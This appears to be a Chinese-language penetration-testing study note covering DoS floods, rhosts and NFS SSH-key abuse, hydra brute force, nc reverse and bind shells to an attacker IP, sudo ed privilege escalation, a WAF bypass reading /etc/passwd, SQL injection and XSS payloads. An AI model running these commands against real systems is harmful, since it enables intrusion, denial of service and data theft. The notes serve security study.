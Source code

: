 pentbox(蜜罐)

​		

waf的过滤原则是正则匹配



攻击系统 

​	缓冲区溢出

​				ms17-010 445 139  端口	标yes必须设置值

​	拒绝服务攻击	

​				攻击：t50           syn泛洪攻击       t50 ip --flood

​					hping3  -S  --flood --rand-source -V ip   泛洪

​						    -F(???)

​				ms12-020

​	操作系统配置错误	

​				linux home下的 ./rhost ++（任意用户远程登录） 直接输用户   rlogin -l root ip

​	nfs(linux文件共享) 2049    rpcinfo -p ip 查看哪些服务在nfs上运行 

​			ssh-keygen 生成密钥对

​						生成的密钥的公钥在/root/.ssh/id_rsa.pub 默认验证文件在/root/.ssh/authorized_keys

​			mount能挂载所有文件  网络共享目录也行

​			showmount -e ip （查看到共享的资源）

​			先挂载 mount -o nolock -t nfs 对方ip:/ /tmp/guazaidian

​			cat    ssh自己的公钥 >>  到受害者的ssh公钥文件

​	暴力破解  hydra   -L 用户名字典 -P 密码字典 ip地址 服务

web应用

​	sql注入  参数化查询最好的防御

msf search 搜索模块

​	info   查看说明信息 required ：yes是需要输入的参数    

​	show options

nc命令

​	nc -l -p 端口号 监听本机的端口

​	反向shell：   nc -e /bin/bash （10.6.21.56）攻击者的ip 5527（被害者的端口）       能够回弹shell -e执行

​	-l 监听模式，用于入站的连接

​	-vv 详细的信息

​	正向shell：  -l -p 5277 -t -e cmd.exe 监听本地的5277端口如果有人访问则会运行cmd.exe程序  （TELNET的肉鸡）

linux

​	vim /查找  n是下一个符合的字段    | grep nfs  查找与nfs相关的文件     netstat查看端口    history查看输入的命令

​	ed（文本编辑器的命令）在ssh登录后没有权限sudo指令 sudo ed 能够执行   ！/bin/sh 执行shell获取到高权限

​	tcpdump 抓包	

​					 	port 端口号 -w 保存到相应的数据包

waf

​	CloudFlare WAF                cat$u /etc$u/passwd$u $u会被正则解析为空格  能够拿反向的shell

mysql 

​	远程连接 mysql -h ip -u 用户名 -p

domain 域

RESP 

​			回复的第一个字节  (后面的会跟个数字 *3 说明有三个数据  $3 set $4name $4test)

​	simple(短的) string              +

​	error		-

​	int		    :

​	bulk string（大容量的）	$

​	array               *

sql注入

​	select * from biao where name = 'admin   ';等同于

​	select * from biao where name='admin'

​	报错注入

​		updataxml(1,concat('~',(select version()),'~'),1)

xss 

​	xml

​		<svg><script>alert &#40;1)</script>	

​		<svg>会把&#40；解析成(  因为<svg>遵循xml的规则解析

​	js

​		");alert("1 

​		<a href = "javascript:alert(3)">hhhhh<a>

​                ；<a href="javascript:\u0061\u006c\u0065\u0072\u0074(3)"；>hhhhhh</a>

​		<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(3)";>hhhhhh</a>

​		先使用js编码在使用url编码

​		